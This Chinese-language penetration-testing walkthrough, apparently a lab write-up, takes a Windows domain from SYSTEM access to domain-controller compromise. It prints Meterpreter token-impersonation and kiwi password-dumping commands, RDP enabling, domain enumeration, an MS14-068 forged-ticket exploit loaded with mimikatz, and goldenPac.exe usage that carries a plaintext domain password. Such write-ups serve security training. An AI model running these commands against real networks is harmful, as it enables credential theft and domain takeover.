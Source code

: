 ![](https://img-blog.csdnimg.cn/5e0fd0b08838401883f0c29bee978f98.png)
成功获取system权限，但发现shell连接不上，重新设置代理`setg Proxies socks5:127.0.0.1:1080`
执行`run post/windows/gather/enum_logged_on_users`查看目标主机有哪些用户
![](https://img-blog.csdnimg.cn/f911107eca9748caaa38e9a4e4a015b6.png)
降权到普通用户
```
load incognito    加载incoginto功能(用来盗窃目标主机的令牌或是假冒用户)
list_tokens -u     列出目标主机用户的可用令牌
impersonate_token "DEMO\douser"     假冒目标主机上的可用令牌
steal_token 3052     从进程窃取
rev2self     回到控制目标主机的初始用户账号下
```
![](https://img-blog.csdnimg.cn/0c04a5c72e584cfd9960a96ae3be29ee.png)
这里还是使用system权限，使用kiwi获取密码
![](https://img-blog.csdnimg.cn/3115d1e5e2bf466e82b73b59835de6f6.png)
开启3389端口：`run post/windows/manage/enable_rdp`
这里换为douser域用户，直接shell进去查看内网信息，发现存在乱码，使用`chcp 65001`即可
```
查询域名
net view /domain
查询域内主机
net view /domain:demo
查看完整域名
wmic computersystem get domain
查看是否是域名主机
net time /domain
查询域控
net group "domain controllers" /domain
查询域内用户
net group "domain users" /domain
查看域管理员	
net group "domain admins" /domain
查看当前计算机名，全名，用户名，系统版本，工作站域，登陆域
net config Workstation
查询域控IP
nslookup WIN-ENS2VR5TR3N.demo.com
补丁信息
systeminfo
```
![](https://img-blog.csdnimg.cn/8fd867f3f19e469199a3cc1f864b5c47.png)
发现并未打ms14-068的补丁，查看一下SID `whoami /all`
![](https://img-blog.csdnimg.cn/cac5a57f0b874620833098ff31c5428f.png)
得到`demo\douser S-1-5-21-979886063-1111900045-1414766810-1107`
##### ms14-068
发现桌面有利用的工具，直接执行
```
MS14-068.exe -u douser@demo.com -p Dotest123 -s S-1-5-21-979886063-1111900045-1414766810-1107 -d 192.168.183.130
```
![](https://img-blog.csdnimg.cn/d067bab9775d4aa59248b7aeb7107864.png)
使用mimikatz.exe导入票据，先`kerberos::purge`清除票据信息
载入票据，`kerberos::ptc TGT_douser@demo.com.ccache`
![](https://img-blog.csdnimg.cn/e7d556c3eae84334b68e3c6c247e095c.png)
`dir \\WIN-ENS2VR5TR3N\c$` 成功访问域控
可以使用goldenPac.exe来达到ms14-068+psexec的自动化利用，直接获取域控的shell，一步到胃
```
goldenPac.exe 域名/域用户名:域用户明文密码@域名
goldenPac.exe demo.com/douser:Dotest123@WIN-ENS2VR5TR3N.demo.com
```